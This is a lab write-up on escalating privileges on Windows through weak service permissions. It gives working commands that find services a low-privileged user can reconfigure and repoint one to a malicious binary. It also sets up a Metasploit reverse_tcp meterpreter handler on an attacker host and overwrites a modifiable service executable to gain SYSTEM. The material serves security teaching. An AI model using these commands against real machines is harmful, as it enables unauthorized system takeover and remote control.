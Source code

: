 # Weak Service Permissions

This quick lab covers two Windows service misconfigurations that allow an attacker to elevate their privileges:

1. A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
2. A low privileged user can overwrite the binary the service launches when it starts

## 1. Changing Service Configuration

Let's enumerate services with `accesschk` from SysInternals and look for `SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG` as these privileges allow attackers to modify service configuration:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
\\vboxsvr\tools\accesschk.exe /accepteula -ucv "mantvydas" evilsvc
or
\\vboxsvr\tools\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below indicates that the user `mantvydas` has full access to the service:

![](../../.gitbook/assets/annotation-2019-05-21-205403.png)

Let's modify the service and point its binary to our malicious binary that will get us a meterpreter shell when the service is launched:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
.\sc.exe config evilsvc binpath= "c:\program.exe"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-21-205633.png)

Let's fire up a multihandler in mfsconsole:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

...and start the vulnerable service:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
.\sc.exe start evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

..and enjoy the meterpreter session:

![](../../.gitbook/assets/annotation-2019-05-21-210027.png)

Note that the meterpreter session will die soon since the meterpreter binary `program.exe` that the vulnerable service `VulnSvc` kicked off, is not a compatible service binary. To save the session, migrate it to another sprocess:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```text
run post/windows/manage/migrate
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Even though the service failed, the session was migrated and saved:

![](../../.gitbook/assets/annotation-2019-05-21-210541%20%281%29.png)

## 2. Overwriting Service Binary

From the first exercise, we know that our user has `SERVICE_ALL_ACCESS` for the service `evilsvc`. Let's check the service binary path:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sc.exe qc evilsvc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-21-210916.png)

Let's check file permissions of the binary c:\service.exe using a native windows tool `icals` and look for \(M\)odify or \(F\)ull permissions for `Authenticated Users` or the user you currently have a shell with:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
icacls C:\service.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-21-211128.png)

Since c:\service.exe is \(M\)odifiable by any authenticated user, we can move our malicious binary c:\program.exe to c:\service.exe:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
cp C:\program.exe C:\service.exe
ls c:\
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-21-211232.png)

...and get the meterpreter shell once `sc start evilsvc` is executed. Note that the shell will die if we do not migrate the process same way as mentioned earlier:

![](../../.gitbook/assets/annotation-2019-05-21-211349.png)

Since services usually run under `NT AUTHORITY\SYSTEM`, our malicious binary gets executed with `SYSTEM` privileges:

![](../../.gitbook/assets/annotation-2019-05-21-212438.png)

